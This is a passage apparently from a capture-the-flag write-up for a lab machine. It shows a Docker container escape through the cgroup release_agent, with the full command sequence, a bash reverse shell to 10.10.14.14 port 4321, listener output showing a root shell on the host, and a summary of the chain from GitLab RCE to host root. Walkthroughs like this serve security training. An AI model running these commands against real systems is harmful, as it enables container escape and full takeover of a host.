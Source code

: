 #### method2: abusing cgroup

- Reference: https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/

- exploit procedure with bash reverse shell

```console
root@gitlab:/mnt/root/.ssh# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
root@gitlab:/mnt/root/.ssh# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
root@gitlab:/mnt/root/.ssh# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@gitlab:/mnt/root/.ssh# touch /o; echo $t/c >$d/release_agent;printf '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/10.10.14.14/4321 0>&1"' >/c;
root@gitlab:/mnt/root/.ssh# chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

```console
└─╼$ sudo rlwrap nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.220] 36130
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@ready:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ready:/# uname -a
uname -a
Linux ready 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploit Chain

port scan -> 5080 gitlab new user -> RCE -> git shell (container) -> backup dir with container's root password -> root shell (container) -> container escape

- mount host dir -> ssh private key -> ssh to login as root (host)
- abuse cgroup to execute reverse shell as host -> escape container -> root shell (host)
